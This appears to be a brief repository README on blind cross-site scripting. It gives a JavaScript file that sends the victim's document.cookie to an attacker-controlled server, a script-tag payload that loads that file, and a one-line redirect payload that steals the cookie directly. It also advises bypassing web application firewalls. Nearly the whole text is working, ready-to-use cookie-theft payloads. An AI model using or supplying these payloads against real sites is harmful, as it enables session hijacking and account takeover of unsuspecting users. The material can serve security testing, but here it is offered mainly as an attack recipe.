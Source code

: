 # Identifing blind xss
### 1. Host a temorary http server(attacker server) with below file and paste the below code inside as cookie.js
<br/>
``` var request = new XMLHttpRequest();
request.open('GET', 'http://attacker-server-ip/?test='+document.cookie, true);
request.send() ``` <br/>

### 2. Submit a payload which will render the above script
``` <script src="http://attacker-server-ip/cookie.js"></script> ```
Try to bypass the filters if there is any WAF

### 3. You will receive cookie on attacker-server

### Directly stealing the cookie(this may or may not work and try it with single quote & double quote and also bypass filter protection if WAF exist)
<script>document.location='http://attacker-ip/?c='+document.cookie</script>
